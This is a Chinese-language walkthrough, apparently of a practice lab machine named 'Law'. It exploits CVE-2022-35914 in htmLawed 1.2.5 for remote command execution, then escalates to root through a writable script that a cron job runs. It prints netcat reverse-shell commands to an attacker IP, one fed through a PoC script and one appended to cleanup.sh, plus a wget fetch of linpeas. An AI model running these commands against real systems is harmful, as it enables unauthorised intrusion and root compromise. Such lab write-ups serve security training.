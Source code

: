 ```yaml
---
description: 中等 / htmlawed 1.2.5 / CVE-2022-35914 / 远程命令执行 / 计划任务提权
---
```


# ✔️ Law

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA law 192.168.210.190 --open
```

<figure><img src="../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现正在运行的服务及其版本号为：htmlawed 1.2.5

<figure><img src="../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索htmlawed 1.2.5相关已知公开漏洞，发现一个远程命令执行漏洞：

<figure><img src="../.gitbook/assets/3 (14).png" alt=""><figcaption></figcaption></figure>

* 得知htmlawed 1.2.5版本存在着CVE-2022-35914的漏洞，该漏洞说明了htmlawed是属于GLPI软件中的一个第三方库，其中包含了一个可用于执行系统命令的测试文件的默认路径：**vendor/htmlawed/htmlawed/htmLawedTest.php**，这意味着我们可以未经身份验证就能执行远程代码执行：

<figure><img src="../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 直接访问该路径失败，没找到这个页面：

<figure><img src="../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

* 同时找到了适用于CVE-2022-35914的PoC，但利用没有成功：

<figure><img src="../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

* 分别使用dirsearch和gobuster没有扫出来任何文件/目录，推测目标系统中没有这个路径，因此尝试修改脚本中的默认路径为根目录：

<figure><img src="../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

* 此时发现脚本可以成功执行：

<figure><img src="../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 根据利用脚本的帮助信息，可以指定执行的命令，因此直接指定反弹shell：

```bash
python3 CVE-2022-35914.py -u http://192.168.228.190 -c 'nc -e /bin/sh 192.168.45.161 4444'
```

<figure><img src="../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

* 本机做好监听，即可获得回连的shell：

<figure><img src="../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# 升级shell
find / -name python*
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 权限提升

### 本地信息收集

* 简单的手动枚举没有什么能利用的，决定上传linpeas进行本地信息收集，当前所在的/var/www/目录没有写入权限，所以要切换到/tmp目录下：

```bash
# 在Kali本机linpeas.sh脚本所在的目录下开启服务器
python3 -m http.server 8888
# 在目标系统的/tmp目录下获取脚本文件
wget http://192.168.45.161:8888/linpeas.sh
```

<figure><img src="../.gitbook/assets/15 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/16 (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (8).png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh脚本后，虽然没有找到可以直接利用的凭证信息，但是也发现了以下两处都出现了/var/www/目录下的<mark style="color:red;">**cleanup.sh文件**</mark>：

<figure><img src="../.gitbook/assets/18 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 这部分意味着以下文件可以由非root用户创建和修改：

<figure><img src="../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 这部分意味着当前的用户权限对以下文件是有写入权限的：

<figure><img src="../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 回到/var/www/目录下，查看cleanup.sh文件内容，发现是一个用于删除log日志的脚本文件，大概率和计划任务有关联：

<figure><img src="../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

* 查看计划任务：

<figure><img src="../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

* 在linpeas的输出信息中发现设置了一个用于定时清理的计时器：phpsessionclean.timer

<figure><img src="../.gitbook/assets/23.png" alt=""><figcaption></figcaption></figure>

* 在阅读/cron.d目录中的php文件内容时，里面也设置了每第9分钟和第39分钟的时候以root身份运行一次sessionclean文件：

<figure><img src="../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 由此，当我们可以以低权限账户来修改cleanup.sh的内容时，直接写入反弹shell的命令，然后等待计划任务自动执行，即可获取到shell：

```bash
echo 'nc -e /bin/bash 192.168.45.161 9999' >> cleanup.sh
```

<figure><img src="../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

* 在Kali本机做好监听，等待即可：

<figure><img src="../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例get shell阶段当找不到漏洞利用的默认路径时，以为掉进了“兔子洞”，心态有点崩，但是因为该机器开放端口只有两个，在没有任何有效凭证的情况下，只有80端口是切入点，因此只要冷静下来尝试多修改几次脚本中的URI，就能利用成功。

利用计划任务进行提权的本质是，找到目标系统中可以让低权限账户修改的脚本，并且该脚本会由高权限账户定期执行，此时只需要写入自定义的操作，等待其定期执行即可。
{% endhint %}
